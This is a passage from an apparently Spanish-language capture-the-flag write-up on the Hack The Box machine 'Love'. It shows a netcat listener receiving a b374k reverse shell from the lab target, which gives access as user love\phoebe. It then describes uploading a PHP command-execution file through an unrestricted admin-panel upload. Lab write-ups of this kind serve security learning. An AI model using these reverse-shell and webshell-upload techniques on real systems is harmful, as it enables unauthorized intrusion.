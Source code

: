 ```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.239] 58604
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

whoami
whoami
love\phoebe

C:\xampp\htdocs\omrs\images>
```

Y ya obtenemos acceso al sistema como el usuario *love\\phoebe*. A continuación se describe otro método para obtener acceso al sistema. Dentro del panel de administración, se observa que podemos actuliazar los datos del peril del usuario *Neovic Devierte*; así como podemos subir un archivo de cualquier extensión; por lo tanto, se crea un archivo php que nos permita la ejecución de comando a nivel de sistema.

![""](/assets/images/htb-love/love_panel.png)

